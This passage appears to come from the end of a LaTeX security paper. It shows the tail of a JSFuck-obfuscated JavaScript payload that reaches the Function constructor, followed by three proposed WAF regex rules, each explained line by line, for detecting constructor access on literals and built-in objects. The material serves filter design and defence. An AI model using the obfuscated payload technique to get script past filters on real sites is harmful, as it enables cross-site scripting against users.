              (!![] + [])[+[]]
          ]
            [
              ([][
                (![] + [])[+[]] +
                  (![] + [])[!+[] + !+[]] +
                  (![] + [])[+!+[]] +
                  (!![] + [])[+[]]
              ] + [])[!+[] + !+[] + !+[]] +
                (!![] +
                  [][
                    (![] + [])[+[]] +
                      (![] + [])[!+[] + !+[]] +
                      (![] + [])[+!+[]] +
                      (!![] + [])[+[]]
                  ])[+!+[] + [+[]]] +
                ([][[]] + [])[+!+[]] +
                (![] + [])[!+[] + !+[] + !+[]] +
                (!![] + [])[+[]] +
                (!![] + [])[+!+[]] +
                ([][[]] + [])[+[]] +
                ([][
                  (![] + [])[+[]] +
                    (![] + [])[!+[] + !+[]] +
                    (![] + [])[+!+[]] +
                    (!![] + [])[+[]]
                ] + [])[!+[] + !+[] + !+[]] +
                (!![] + [])[+[]] +
                (!![] +
                  [][
                    (![] + [])[+[]] +
                      (![] + [])[!+[] + !+[]] +
                      (![] + [])[+!+[]] +
                      (!![] + [])[+[]]
                  ])[+!+[] + [+[]]] +
                (!![] + [])[+!+[]]
            ](
              (!![] + [])[+!+[]] +
                (!![] + [])[!+[] + !+[] + !+[]] +
                (!![] + [])[+[]] +
                ([][[]] + [])[+[]] +
                (!![] + [])[+!+[]] +
                ([][[]] + [])[+!+[]] +
                (![] + [+[]])[
                  ([![]] + [][[]])[+!+[] + [+[]]] +
                    (!![] + [])[+[]] +
                    (![] + [])[+!+[]] +
                    (![] + [])[!+[] + !+[]] +
                    ([![]] + [][[]])[+!+[] + [+[]]] +
                    ([][
                      (![] + [])[+[]] +
                        (![] + [])[!+[] + !+[]] +
                        (![] + [])[+!+[]] +
                        (!![] + [])[+[]]
                    ] + [])[!+[] + !+[] + !+[]] +
                    (![] + [])[!+[] + !+[] + !+[]]
                ]()[+!+[] + [+[]]] +
                ![] +
                (![] + [+[]])[
                  ([![]] + [][[]])[+!+[] + [+[]]] +
                    (!![] + [])[+[]] +
                    (![] + [])[+!+[]] +
                    (![] + [])[!+[] + !+[]] +
                    ([![]] + [][[]])[+!+[] + [+[]]] +
                    ([][
                      (![] + [])[+[]] +
                        (![] + [])[!+[] + !+[]] +
                        (![] + [])[+!+[]] +
                        (!![] + [])[+[]]
                    ] + [])[!+[] + !+[] + !+[]] +
                    (![] + [])[!+[] + !+[] + !+[]]
                ]()[+!+[] + [+[]]],
            )()
            [
              ([][
                (![] + [])[+[]] +
                  (![] + [])[!+[] + !+[]] +
                  (![] + [])[+!+[]] +
                  (!![] + [])[+[]]
              ] + [])[!+[] + !+[] + !+[]] +
                (!![] +
                  [][
                    (![] + [])[+[]] +
                      (![] + [])[!+[] + !+[]] +
                      (![] + [])[+!+[]] +
                      (!![] + [])[+[]]
                  ])[+!+[] + [+[]]] +
                ([][[]] + [])[+!+[]] +
                (![] + [])[!+[] + !+[] + !+[]] +
                (!![] + [])[+[]] +
                (!![] + [])[+!+[]] +
                ([][[]] + [])[+[]] +
                ([][
                  (![] + [])[+[]] +
                    (![] + [])[!+[] + !+[]] +
                    (![] + [])[+!+[]] +
                    (!![] + [])[+[]]
                ] + [])[!+[] + !+[] + !+[]] +
                (!![] + [])[+[]] +
                (!![] +
                  [][
                    (![] + [])[+[]] +
                      (![] + [])[!+[] + !+[]] +
                      (![] + [])[+!+[]] +
                      (!![] + [])[+[]]
                  ])[+!+[] + [+[]]] +
                (!![] + [])[+!+[]]
            ](
              (![] + [+[]])[
                ([![]] + [][[]])[+!+[] + [+[]]] +
                  (!![] + [])[+[]] +
                  (![] + [])[+!+[]] +
                  (![] + [])[!+[] + !+[]] +
                  ([![]] + [][[]])[+!+[] + [+[]]] +
                  ([][
                    (![] + [])[+[]] +
                      (![] + [])[!+[] + !+[]] +
                      (![] + [])[+!+[]] +
                      (!![] + [])[+[]]
                  ] + [])[!+[] + !+[] + !+[]] +
                  (![] + [])[!+[] + !+[] + !+[]]
              ]()[+!+[] + [+[]]],
            ) + [])[+!+[]],
        ) +
      ([] + [])[
        (![] + [])[+[]] +
          (!![] +
            [][
              (![] + [])[+[]] +
                (![] + [])[!+[] + !+[]] +
                (![] + [])[+!+[]] +
                (!![] + [])[+[]]
            ])[+!+[] + [+[]]] +
          ([][[]] + [])[+!+[]] +
          (!![] + [])[+[]] +
          ([][
            (![] + [])[+[]] +
              (![] + [])[!+[] + !+[]] +
              (![] + [])[+!+[]] +
              (!![] + [])[+[]]
          ] + [])[!+[] + !+[] + !+[]] +
          (!![] +
            [][
              (![] + [])[+[]] +
                (![] + [])[!+[] + !+[]] +
                (![] + [])[+!+[]] +
                (!![] + [])[+[]]
            ])[+!+[] + [+[]]] +
          (![] + [])[!+[] + !+[]] +
          (!![] +
            [][
              (![] + [])[+[]] +
                (![] + [])[!+[] + !+[]] +
                (![] + [])[+!+[]] +
                (!![] + [])[+[]]
            ])[+!+[] + [+[]]] +
          (!![] + [])[+!+[]]
      ]()[+!+[] + [!+[] + !+[]]],
  )(),
);
\end{lstlisting}


\begin{lstlisting}[style=basicStyle, caption=Regular expression of proposed rule id:2, label={lst:constructorsruleproposalregexA}]
(?i)(?:(?:\[[^\]]*\])|(?:\{[^}]*\}))\.[a-z]*\.constructor[`,(,\[]

explanation:
(?i)  match the remainder of the pattern with the i modifier: Case insensitive match

(?:   start a non-capturing group (object group)

(?:   start a non-capturing group (square bracket group)
\[    match on a single opening square bracket
[     start a list
^\]   exclude the closing square bracket from matching
]     end the list
*     match the characters from the list (anything that is not a square closing bracket) between 0 and unlimited times
\]    match on a single closing square bracket
)     close the group (square bracket group)

|     give an alternative the previous group (square bracket group)

(?:	  start a non-capturing group (curly bracket group)
\{	  match on a single opening curly bracket
[     start a list
^}	  exclude the closing curly bracket
]     end the list
*     match the characters from the list (anything that is not a curly closing bracket) between 0 and unlimited times
\}	  match on a single closing curly bracket
)     close the group (curly bracket group)

)     close the group (object group)

\.    match on a single dot

[     start a list
a-z   match a single character between a (index 97) and z (index 122)
]     end the list
*     match the characters from the list (anything from a to z) between 0 and unlimited times

\.	  match on a single dot

constructor    match on the word "constructor"

[     start a list
`,(,\[         match on a single `, opening round bracket or opening square bracket
]     end the list
\end{lstlisting}



\begin{lstlisting}[style=basicStyle, caption=Regular expression of proposed rule id:3, label={lst:constructorproposalregexB}]
(?i)(?:(?:\[[^\]]*\])|(?:\{[^}]*\}))\[[`,',"][a-z]*[`,',"]\]\[[`,',"]constructor[`,',"]\][`,(,\[]

explanation:
(?i)(?:(?:\[[^\]]*\])|(?:\{[^}]*\}))    equal to the previous regular expression used in proposed rule with id:3

\[    match a single opening square bracket
[     start a list
`,'," match ticks indicating a string
]     end the list
[     start a list
a-z   match a single character between a (index 97) and z (index 122)
]     end the list
*     match the characters from the list (anything from a to z) between 0 and unlimited times
[     start a list
`,'," match ticks indicating a string
]     end the list
\]    match a single closing square bracket

\[    match a single opening square bracket
[     start a list
`,'," match ticks indicating a string
]     end the list
constructor     match on the word "constructor"
[     start a list
`,'," match ticks indicating a string
]     end the list
\]    match a single closing square bracket

[     start a list
`,(,\[         match on a single `, opening round bracket or opening square bracket
]     end the list
\end{lstlisting}


\begin{lstlisting}[style=basicStyle, caption=Regular expression of proposed rule id:4, label={lst:constructorruleproposalregexC}]
(?i)(?:(?:\[[^\]]*\])|(?:\{[^}]*\})|Object|Boolean|Symbol|(?:[a-z]*Error)|Number|BigInt|Math|Date|String|RegExp|(?:[a-z]*Array)|Map|Set|WeakMap|WeakSet|(?:(?:Shared)*ArrayBuffer)|DataView|Atomics|JSON|WeakRef|FinalizationRegistry|Iterator|AsyncIterator|Promise|GeneratorFunction|AsyncGeneratorFunction|Generator|AsyncGenerator|AsyncFunction|Reflect|Proxy|(?:Intl[\.,a-z]*))(?:(?:\[[`,',\"][a-z]*[`,',\"]\])|(?:\.[a-z]*))(?:(\[[`,',\"]constructor[`,',\"]\])|(?:\.constructor))[`,(,\[]

explanation:
(?i)(?:(?:\[[^\]]*\])|(?:\{[^}]*\})    equal to the previous regular expression used in proposed rule with id:3

|Object|Boolean|Symbol|(?:[a-z]*Error)|Number|BigInt|Math|Date|String|RegExp|(?:[a-z]*Array)|Map|Set|WeakMap|WeakSet|(?:(?:Shared)*ArrayBuffer)|DataView|Atomics|JSON|WeakRef|FinalizationRegistry|Iterator|AsyncIterator|Promise|GeneratorFunction|AsyncGeneratorFunction|Generator|AsyncGenerator|AsyncFunction|Reflect|Proxy
   |(?:Intl[\.,a-z]*)     match on built-in alternatives to [] or {}

)     close the group (object group)

(?:   start a non-capturing group (function group)

(?:\[[`,',\"][a-z]*[`,',\"]\])|(?:\.[a-z]*)     match on either square bracket notation or dot notation access to any property

)     close the function group

(?:   start a non-capturing group (constructor group)

(\[[`,',\"]constructor[`,',\"]\])|(?:\.constructor)     match on either square bracket notation or dot notation access to the constructor

)     close the constructor group


[`,(,\[]    equal to the previous regular expression used in proposed rule with id:3
\end{lstlisting}

	
\end{document}
